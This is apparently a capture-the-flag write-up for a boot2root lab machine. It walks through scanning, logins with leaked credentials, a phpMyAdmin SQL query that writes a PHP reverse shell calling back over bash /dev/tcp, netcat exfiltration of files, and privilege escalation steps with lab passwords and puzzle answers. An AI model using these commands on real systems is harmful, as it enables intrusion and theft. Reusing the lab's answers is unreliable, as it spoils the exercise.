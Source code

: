 ## Enumeration

### ping sweep

```
$ nmap -sn -o nmap/ping-sweep.txt 192.168.0.0/24
...
Nmap scan report for 192.168.0.6
Host is up (0.00068s latency).
...
```

### nmap scan


```
$ nmap -sV -oN nmap/sv.txt 10.0.0.5
...
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
...
```

### port 80

http://192.168.0.6/

![](assets/00.png)

### port 443

https://192.168.0.6/

![](assets/01.png)

Directory fuzzing

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
cgi-bin/                [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 6ms]
forum                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 1ms]
phpmyadmin              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 2ms]
server-status           [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 0ms]
webmail                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 1ms]
...
```

**https://192.168.0.6/forum/**

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
modules                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 5ms]
templates_c             [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
themes                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
update                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
...
```

Users at https://192.168.0.6/forum/index.php?mode=user

![](assets/02.png)

Password at https://192.168.0.6/forum/index.php?id=6

![](assets/03.png)

Logged in using `lmezard:!q\]Ej?*5K5cy*AJ`

Email address at https://192.168.0.6/forum/index.php?mode=user&action=edit_profile

![](assets/04.png)

**https://192.168.0.6/webmail/**

Logged in using `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ`

Database credentials at an email

![](assets/05.png)

**https://192.168.0.6/phpmyadmin/**

Logged in using `root:Fg-'kKXBj87E:aJ$`

![](assets/06.png)

Write php file on `/var/www/forum/templates_c/` using this sql query

```
SELECT '<?php phpinfo();?>' INTO OUTFILE '/var/www/forum/templates_c/info.php'
```

![](assets/07.png)

Browsed to https://192.168.0.6/forum/templates_c/info.php

![](assets/08.png)

## Initial access

Create a php script to get a reverse shell

```
SELECT '<?php system("bash -c \'bash -i >& /dev/tcp/192.168.0.5/9000 0>&1\'");?>' INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

Started a listener

```
$ nc -lnp 9000
```

Browsed to https://192.168.0.6/forum/templates_c/shell.php and got a shell

![](assets/09.png)

Logged in as `www-data`

Stabilize our shell

```
target$ python -c 'import pty; pty.spawn("/bin/bash")'
target$ Ctrl+Z
attack$ stty -a
speed 38400 baud; rows 53; columns 237; line = 0;
...
attack$ stty raw -echo; fg
target$ export TERM=xterm
target$ stty rows 53 columns 237
```

## Privilege escalation

**www-data -> lmezard**

credentials were found at `/home/LOOKATME/password`: `lmezard:G!@M6f4Eatau{sF"`

![](assets/10.png)

```
$ su lmezard
Password: G!@M6f4Eatau{sF"
```

![](assets/11.png)

**lmezard -> laurie**

Exfiltrated tar archive `fun` to our machine and extracted it

```
attack$ nc -lnp 9000 > loot/fun
target$ cat fun | nc 192.168.0.5 9000
attack$ tar xf fun
```
The extracted folder `ft_fun` contained a lot of files with the extension `pcap`, one of these files contained the following `main()`

```c
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```

Extracted the password for `laurie` using [extract_pass.sh](scripts/extract_pass.py)

Logged in as `laurie` using SSH with the password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

**laurie -> thor**

reversing `bomb`

```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5
```
[phase_5.py](scripts/phase_5.py) helped solving phase_5.

The password is : `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

**thor -> zaz**

Used python module `turtle` with the instructions described in `turtle` file, and got a drawing of the word `SLASH`

[turtle-solve](scripts/turtle-solve.py)
